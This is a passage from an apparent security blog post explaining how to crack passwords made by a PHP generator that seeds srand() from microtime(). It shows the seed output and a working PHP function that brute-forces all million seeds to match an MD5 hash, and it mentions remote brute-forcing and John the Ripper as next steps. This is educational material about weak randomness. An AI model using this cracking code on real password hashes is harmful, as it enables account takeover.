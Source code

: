 So, the first thing I did was replace srand() with echo() to find out exactly what that line does:

```

<?php
  for($i = 0; $i < 3; $i++)
  {
    echo((double)microtime() * 1000000);
    echo "\n";
  }
?>
```

Then the output of a few back-to-back runs:

```
$ php srand.php
155118
155198
155213
$ php srand.php
898454
898536
898552
$ php srand.php
673755
673844
673860
```

Hmm! It looks like the random seed is an integer between 0 and 1,000,000. Suddenly, this is a lot easier.

In my next blog, I'm going to look at how we can use commandline tools to do a bruteforce remotely and guess a password this way, but for now let's see how we can crack the passwords using two methods: php and john the ripper.

## Cracking it with PHP

If for whatever reason you only have a single hash that you want to crack, this is by far the easiest way. I basically modified the original function (found above) to take an extra parameter - the hash - and to generate random passwords with different seeds until it finds one that matches. Here's the code:

```
<?php
  function generate_random_password($length, $hash)
  {
    $chars = 'abcdefghijkmnopqrstuvwxyz023456789!@#$';

    for($j = 0; $j < 1000000; $j++)
    {
      srand($j);

      $passwd = '';
      $chars_length = strlen($chars) - 1;

      for ($i = 0; $i < $length; $i++)
          $passwd .= substr($chars, (rand() % $chars_length), 1);

      if(md5($passwd) == $hash)
        return $passwd;
    }
  }?>
```
